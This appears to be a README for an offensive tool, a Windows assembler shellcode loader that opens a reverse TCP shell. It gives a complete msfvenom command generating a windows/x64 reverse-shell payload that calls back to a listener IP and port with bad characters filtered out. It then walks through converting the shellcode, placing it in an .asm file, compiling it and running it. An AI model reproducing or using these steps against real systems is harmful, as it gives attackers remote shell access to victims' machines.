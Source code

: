 # Assembler, Shellcode Loader (reverse TCP)

## 1. Create your payload

ex with : 

```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c > shellnew ```

## 2. Convert your shellcode

Use this [converter](./convert.sh)


## 3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm)

## 4. Compile your ASM

On windows you can use this compiler [script](./cimpiler.bat)

## 5. Run
